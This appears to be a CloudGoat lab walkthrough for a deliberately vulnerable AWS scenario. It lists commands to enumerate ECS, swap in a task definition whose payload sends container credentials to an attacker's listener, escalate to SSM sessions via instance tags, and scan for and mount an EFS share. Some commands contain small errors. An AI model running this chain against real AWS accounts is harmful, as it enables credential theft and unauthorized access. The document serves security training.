 Connect to the start ec2 "Ruse_Box" using the public IP and SSH key provided.

`ssh -i cloudgoat ubuntu@<IP ADDRESS>`

Configure the role credentials 
`aws configure --profile ruse`

List the privileges 
`aws iam list --profile ruse`

List ec2 instances 
`aws ec2 describe-instances --profile ruse `

List all available ECS clusters 
`aws ecs list-clusters --profile ruse`

List services in cloudgoat cluster
`aws ecs list-services --cluster <CLUSTER ARN> --profile ruse`

Download task definition 
`aws ecs describe-task-definition --task-definition <TASK_NAME>:<VERSION> --profile ruse > task_def.json `

Download template to register a new task
`aws ecs register-task-definition --generate-cli-skeleton --profile ruse > task_template.json`

Now use task_def.json to fill out template.json with the desired payload. Reference our blog for details [here](https://rhinosecuritylabs.com/aws/weaponizing-ecs-task-definitions-steal-credentials-running-containers/)

Now register the template to replace the currently running task.
`register-task-definition --cli-input-json file://task_template.json  --profile ruse`

Wait for the task to run and POST the credentials to your listener

With the new creds add them to "ruse_box"
`aws configure --profile ecs`

Modify admin ec2 tags
`aws ec2 create-tags --resources <INSTANCE ID> --tags Key=StartSession,Value=true`

Using ecs creds start a session on admin ec2 
`aws ssm start-session --target <INSTANCE ID> --profile ecs`

Looking at the ec2 instances we see the admin ec2 only has a single port open. We Nmap scan this port.
`nmap -Pn -P 2049 --open 10.10.10.0/24 `

Mount discovered ec2 
`cd /mnt`
`sudo mkdir /efs`
`sudo mount -t nfs4 -o nfsvers=4.1,rsize=1048576,wsize=1048576,hard,timeo=600,retrans=2,noresvport <IP ADDRESS OF EFS>:/ efs`